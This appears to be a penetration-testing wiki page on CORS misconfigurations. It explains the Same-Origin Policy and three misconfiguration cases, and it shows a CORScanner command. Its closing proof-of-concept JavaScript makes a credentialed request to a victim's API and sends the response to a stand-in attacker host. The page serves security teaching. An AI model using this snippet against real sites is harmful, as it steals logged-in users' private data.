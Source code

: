 ```yaml
---
authors: ShutdownRepo
---
```


# 🛠️ CORS (Cross-Origin Resource Sharing)

## Theory

Sometimes browsers need to load resources from another origin other than their own. The Same-Origin Policy mechanism (SOP) restricts access to resources on other origins. 

> [!TIP]
> The same-origin is defined for two URLs that have the same protocol, port (if specified), and host.

To bypass this limitation, the JSON-P technique (in JavaScript) was introduced. To retrieve information from another origin, it uses the `<script>` tag (which is not blocked by the SOP). Unfortunately, this technique has some issues and lacks controls in some cases. Here we introduce CORS.

Cross-Origin Resource Sharing (CORS) is a header-based mechanism. It improves security and flexibility for cross-domain resource sharing. CORS is relatively new and therefore, not very well-known. As result, misconfigurations are common and bring security concerns. The main vulnerabilities lie in the overly permissive access to credentials from non-controlled domains.

### Misconfigurations

The exploitation will depend on the misconfiguration. The next image shows a path that can be followed:

![](assets/CORS.png)

#### Case 1

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: regex`

The origins are verified through a regex match.\
The misconfiguration types can be better understood with this table:

![](./assets/misconfigs.png)
<div class="caption">https://github.com/chenjj/CORScanner</div>

> [!WARNING]
> The configuration below is [impossible](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests\_with\_credentials):
>
> * `Access-Control-Allow-Credentials: true`
> * `Access-Control-Allow-Origin: *`

#### Case 2

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: null`

According to [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), browsers might send the value `null` in the `Origin` header in some unusual situations:

* Cross-site redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

The value `null` when the server sends credentials is the worst-case scenario. It means any origin can request credentials without limitation.

#### Case 3

Misconfiguration:

* `Access-Control-Allow-Credentials: false`
* `Access-Control-Allow-Origin` is dynamically generated
* `Vary: Origin` is absent

In this case, it's possible to conduct a client-side poisoning.

Check [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)'s explanation for more information.&#x20;

## Practice

During a penetration test, exploiting CORS misconfigurations is difficult. The attacks may rely on manipulating a victim or even finding configuration issues on other domains (which can be out of scope).

However, it's possible to get a Proof-of-Concept using JavaScript by registring a domain (to abuse a CORS misconfiguration).

### Tool

The tool [CORScanner ](https://github.com/chenjj/CORScanner)is useful in finding misconfigurations. It relies on the table shown in the misconfiguration case 1.

```bash
python cors_scan.py -u $URL
```

> [!TIP]
> It is advised to use the verbose option `-v` to see the tests.

> [!WARNING]
> It is possible to customize the third parties origins in the file `origins.json`.

### Proof-of-Concept (PoC)

To steal sensitive information, the victim has to be logged in the vulnerable website. From there, if the victim is redirected to the attacker's website (containing the script below), the sensitive information will be retrieved by the attacker.

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable.domain/api/secret-data',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.domain/log?response='+this.responseText; 
};
```

## Resources

[https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[https://www.jianjunchen.com/publication/an-empirical-study-of-cors/](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)